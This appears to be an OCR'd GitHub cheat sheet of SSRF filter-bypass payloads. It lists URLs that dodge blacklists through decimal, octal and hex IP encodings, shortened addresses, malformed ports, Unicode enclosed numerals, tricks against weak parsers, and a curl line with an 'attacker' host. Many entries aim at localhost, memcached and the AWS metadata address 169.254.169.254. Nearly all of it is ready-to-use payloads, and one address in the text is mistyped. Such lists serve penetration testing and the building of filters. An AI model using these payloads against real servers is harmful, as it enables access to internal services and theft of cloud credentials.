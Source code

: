 - With decimal IP location, really useful if dots are blacklisted

[http://0177.0.0.1/](.) --> (127.0.0.1)

[http://2130706433/](.) --> (127.0.0.1)

[http://3232235521/] (.)--> (192.168.0.1)

[http://3232235777/](.) --> (192.168.1.1)

- With malformed URLs, useful when port is blacklisted

[localhost:+11211aaa](.)

[localhost:00011211aaaa](.)

[localhost:11211](.)

- With shorthanding IP addresses by dropping zeros, useful when full IP address is whitelisted

[http://0/](.)

[http://127.1/](.)

[http://127.0.1/](.)

-With enclosed alphanumerics, useful when just plain ASCII characters are blacklisted but servers interpret enclosed alphanumerics as normal.

[http://①②⑦.⓪.⓪.①/](.)

[http://⓵⓶⓻.⓪.⓪.⓵/](.)

- With bash variables (cURL only)

curl -v "http://attacker$google.com"; $google = ""

Against weak parsers (these go to http://127.2.2.2:80)

[http://127.1.1.1:80\@127.2.2.2:80/](.)

[http://127.1.1.1:80\@@127.2.2.2:80/](.)

[http://127.1.1.1:80:\@@127.2.2.2:80/](.)

[http://127.1.1.1:80#\@127.2.2.2:80/](.)

Bypass 169.254.169.254 address

-The most common bypass for AWS addresses is changing them to get past the blacklist of 169.245.169.254.

[http://169.254.169.254.xip.io/](.)

[http://1ynrnhl.xip.io](.)

[http://425.510.425.510](.) – dotted decimal with overflow

[http://2852039166](.)– dotless decimal

[http://7147006462](.) – dotless decimal with overflow

[http://0xA9.0xFE.0xA9.0xFE](.) – dotted hexadecimal

[http://0xA9FEA9FE](.) – dotless hexadecimal
